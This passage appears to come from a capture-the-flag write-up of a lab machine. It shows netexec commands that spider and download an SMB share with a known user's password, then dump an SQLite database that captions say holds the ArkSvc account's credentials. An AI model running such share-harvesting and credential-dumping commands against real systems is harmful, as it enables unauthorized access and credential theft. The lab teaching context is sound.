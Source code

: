 By downloading the share and dumping the data of `Audit.db` we obtain the credentials of the `ArkSvc` account (Figure 15 & 16).

{% code overflow="wrap" %}
```bash
# downloading the Audit share
nxc smb 10.10.10.182 -u s.smith -p s.smith_pass -M spider_plus -o DOWNLOAD_FLAG=True EXCLUDE_FILTER=Data,NETLOGON,print\$,SYSVOL OUTPUT_FOLDER=SMB
# checking the file type of Audit.db
file SMB/10.10.10.182/Audit\$/DB/Audit.db
# dumping the database's data
sqlite3 SMB/10.10.10.182/Audit\$/DB/Audit.db .dump
```
{% endcode %}

<figure><img src="../../.gitbook/assets/casc_down_audit.png" alt=""><figcaption><p>Figure 15: Downloading the Audit share.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/casc_audit_db.png" alt=""><figcaption><p>Figure 16: The database contains the credentials of the ArkSvc account!</p></figcaption></figure>
